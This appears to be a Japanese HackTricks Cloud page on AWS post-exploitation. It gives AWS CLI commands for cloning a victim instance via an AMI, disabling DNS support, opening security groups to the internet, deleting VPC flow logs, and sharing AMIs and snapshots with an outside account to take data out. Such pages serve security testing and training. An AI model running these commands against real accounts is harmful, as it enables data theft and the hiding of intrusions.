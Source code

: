 # AWS - EC2、EBS、SSM＆VPCのポストエクスプロイテーション

<details>

<summary><strong>ハックトリックをサポートして特典を得る！</strong></summary>

* **HackTricksで会社の広告を見たい**場合や、**PEASSの最新バージョンを入手したい**場合、または**HackTricksをPDFでダウンロード**したい場合は、[**SUBSCRIPTION PLANS**](https://github.com/sponsors/carlospolop)をご覧ください！
* [**公式PEASS＆HackTricksのグッズ**](https://peass.creator-spring.com)を手に入れる
* [**The PEASS Family**](https://opensea.io/collection/the-peass-family)を発見し、独占的な[**NFT**](https://opensea.io/collection/the-peass-family)のコレクションを見つける
* 💬 [**Discordグループ**](https://discord.gg/hRep4RUj7f)または[**telegramグループ**](https://t.me/peass)に参加するか、**Twitter**で私をフォローする 🐦 [**@carlospolopm**](https://twitter.com/carlospolopm)
* **ハッキングのトリックを共有するには、PRを** [**HackTricks**](https://github.com/carlospolop/hacktricks) **および** [**HackTricks Cloud**](https://github.com/carlospolop/hacktricks-cloud) **のGitHubリポジトリに提出してください。**

</details>

## EC2＆VPC

詳細については、次を参照してください：

{% content-ref url="../../../aws-security/aws-services/aws-ec2-ebs-elb-ssm-vpc-and-vpn-enum/" %}
[aws-ec2-ebs-elb-ssm-vpc-and-vpn-enum](../../../aws-security/aws-services/aws-ec2-ebs-elb-ssm-vpc-and-vpn-enum/)
{% endcontent-ref %}

### **悪意のあるVPCミラー**

VPCトラフィックミラーリングは、**VPC内のEC2インスタンスの受信および送信トラフィックを複製**し、インスタンス自体に何もインストールする必要がありません。この複製されたトラフィックは、通常、ネットワーク侵入検知システム（IDS）などに送信され、分析および監視のために使用されます。\
攻撃者はこれを悪用して、すべてのトラフィックをキャプチャし、そこから機密情報を取得することができます：

{% content-ref url="../../../aws-security/aws-services/aws-ec2-ebs-elb-ssm-vpc-and-vpn-enum/aws-malicious-vpc-mirror.md" %}
[aws-malicious-vpc-mirror.md](../../../aws-security/aws-services/aws-ec2-ebs-elb-ssm-vpc-and-vpn-enum/aws-malicious-vpc-mirror.md)
{% endcontent-ref %}

### 実行中のインスタンスのコピー

インスタンスには通常、いくつかの機密情報が含まれています。内部に入るためのさまざまな方法があります（[EC2特権エスカレーショントリック](../../../aws-security/aws-privilege-escalation/aws-ec2-privesc.md)を確認してください）。ただし、その内容を確認する別の方法は、**AMIを作成し、それから新しいインスタンスを実行する（自分のアカウント内でも）**ことです：
```shell
# List instances
aws ec2 describe-images

# create a new image for the instance-id
aws ec2 create-image --instance-id i-0438b003d81cd7ec5 --name "AWS Audit" --description "Export AMI" --region eu-west-1

# add key to AWS
aws ec2 import-key-pair --key-name "AWS Audit" --public-key-material file://~/.ssh/id_rsa.pub --region eu-west-1

# create ec2 using the previously created AMI, use the same security group and subnet to connect easily.
aws ec2 run-instances --image-id ami-0b77e2d906b00202d --security-group-ids "sg-6d0d7f01" --subnet-id subnet-9eb001ea --count 1 --instance-type t2.micro --key-name "AWS Audit" --query "Instances[0].InstanceId" --region eu-west-1

# now you can check the instance
aws ec2 describe-instances --instance-ids i-0546910a0c18725a1

# If needed : edit groups
aws ec2 modify-instance-attribute --instance-id "i-0546910a0c18725a1" --groups "sg-6d0d7f01"  --region eu-west-1

# be a good guy, clean our instance to avoid any useless cost
aws ec2 stop-instances --instance-id "i-0546910a0c18725a1" --region eu-west-1
aws ec2 terminate-instances --instance-id "i-0546910a0c18725a1" --region eu-west-1
```
### EBSスナップショットのダンプ

**スナップショットはボリュームのバックアップ**であり、通常は**機密情報を含んでいる**ため、これらをチェックするとこの情報が明らかになるでしょう。\
スナップショットがない**ボリュームを見つけた場合**、以下のアクションを実行するために**スナップショットを作成**するか、単にアカウント内のインスタンスに**マウント**することができます。

{% content-ref url="../../../aws-security/aws-post-exploitation/aws-ec2-ebs-ssm-and-vpc-post-exploitation/aws-ebs-snapshot-dump.md" %}
[aws-ebs-snapshot-dump.md](../../../aws-security/aws-post-exploitation/aws-ec2-ebs-ssm-and-vpc-post-exploitation/aws-ebs-snapshot-dump.md)
{% endcontent-ref %}

### データの外部流出

#### DNSを介したデータの外部流出

EC2をロックダウンしてトラフィックが外部に出ないようにしても、DNS経由で**データが外部に流出**する可能性があります。

* **VPCフローログには記録されません**。
* AWSのDNSログにはアクセスできません。
* 以下のコマンドを使用して、"enableDnsSupport"をfalseに設定してこれを無効にします：

`aws ec2 modify-vpc-attribute --no-enable-dns-support --vpc-id <vpc-id>`

#### API呼び出しによるデータの外部流出

攻撃者は、自分が制御するアカウントのAPIエンドポイントを呼び出すことができます。CloudTrailはこの呼び出しをログに記録し、攻撃者はCloudTrailログでデータの外部流出を確認できます。

### オープンセキュリティグループ

次のようにポートを開放することで、ネットワークサービスへのさらなるアクセスを取得できます：

{% code overflow="wrap" %}
```bash
aws ec2 authorize-security-group-ingress --group-id <sg-id> --protocol tcp --port 80 --cidr 0.0.0.0/0
# Or you could just open it to more specific ips or maybe th einternal network if you have already compromised an EC2 in the VPC
```
{% endcode %}

### SSMポストエクスプロイテーション

{% content-ref url="../../../aws-security/aws-services/aws-ec2-ebs-elb-ssm-vpc-and-vpn-enum/aws-ssm-post-exploitation.md" %}
[aws-ssm-post-exploitation.md](../../../aws-security/aws-services/aws-ec2-ebs-elb-ssm-vpc-and-vpn-enum/aws-ssm-post-exploitation.md)
{% endcontent-ref %}

### ECSへの特権昇格

EC2インスタンスを実行し、ECSインスタンスのデータを盗むために使用するために登録することが可能です。

[**詳細についてはこちらを参照してください**](../../../aws-security/aws-privilege-escalation/aws-ec2-privesc.md#privesc-to-ecs).

### VPCフローログの削除
```bash
aws ec2 delete-flow-logs --flow-log-ids <flow_log_ids> --region <region>
```
### AMIの共有

{% code overflow="wrap" %}
```bash
aws ec2 modify-image-attribute --image-id <image_ID> --launch-permission "Add=[{UserId=<recipient_account_ID>}]" --region <AWS_region>
```
### EBSスナップショットの共有

{% code overflow="wrap" %}
```bash
aws ec2 modify-snapshot-attribute --snapshot-id <snapshot_ID> --create-volume-permission "Add=[{UserId=<recipient_account_ID>}]" --region <AWS_region>
```
{% endcode %}

<details>

<summary><strong>ハックトリックをサポートして特典を得る！</strong></summary>

* **会社をハックトリックで宣伝したい**場合や、**最新バージョンのPEASSを入手したい**場合、またはHackTricksをPDFでダウンロードしたい場合は、[**サブスクリプションプラン**](https://github.com/sponsors/carlospolop)をご確認ください！
* [**公式PEASS＆HackTricksグッズ**](https://peass.creator-spring.com)を手に入れましょう
* [**The PEASS Family**](https://opensea.io/collection/the-peass-family)を見つけて、独占的な[**NFT**](https://opensea.io/collection/the-peass-family)のコレクションを発見しましょう
* 💬 [**Discordグループ**](https://discord.gg/hRep4RUj7f)または[**Telegramグループ**](https://t.me/peass)に参加するか、**Twitter**で私をフォローしましょう 🐦 [**@carlospolopm**](https://twitter.com/carlospolopm)**.**
* **ハッキングのトリックを共有するために、PRを** [**HackTricks**](https://github.com/carlospolop/hacktricks) **および** [**HackTricks Cloud**](https://github.com/carlospolop/hacktricks-cloud) **のGitHubリポジトリに提出してください。**

</details>
